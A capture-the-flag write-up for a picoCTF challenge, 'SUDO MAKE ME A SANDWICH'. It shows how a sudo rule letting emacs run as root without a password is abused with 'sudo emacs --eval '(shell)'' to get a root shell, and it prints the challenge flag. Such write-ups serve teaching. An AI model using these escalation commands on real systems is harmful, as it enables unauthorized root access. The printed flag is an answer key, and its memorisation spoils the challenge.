




# 🔥 Challenge: SUDO MAKE ME A SANDWICH

**Category:** General Skills  
**Difficulty:** Easy  
**Points:** 50  

---

## 🧩 Description

The challenge provides SSH access to a remote machine and asks us to retrieve the flag.

We are given credentials to connect and hints suggesting we should check our permissions.



---

## 🧠 Approach

After logging into the system via SSH, the first step was to check what privileges the current user has.

Using:

```bash
sudo -l
```

We discover that the user can run `/bin/emacs` as root without a password.

```bash
(ALL) NOPASSWD: /bin/emacs
```

This is a misconfiguration that allows for privilege escalation.



---

## ⚔️ Exploitation

1. Fix terminal compatibility:

The remote system does not recognize the `xterm-kitty` terminaal type, so we override it.

```bash
export TERM=xterm
```


2. Spawn Root Shell via Emacs:

Since Emacs can be run as root we spawn a shell using

```bash
sudo emacs --eval '(shell)'
```

This gives us a root shell inside Emacs



3. Retrieve the flag:

```bash
cat flag.txt
```



---

## 🚩 Flag

This gives us the flag: picoCTF{ju57_5ud0_17_2feb37e6}
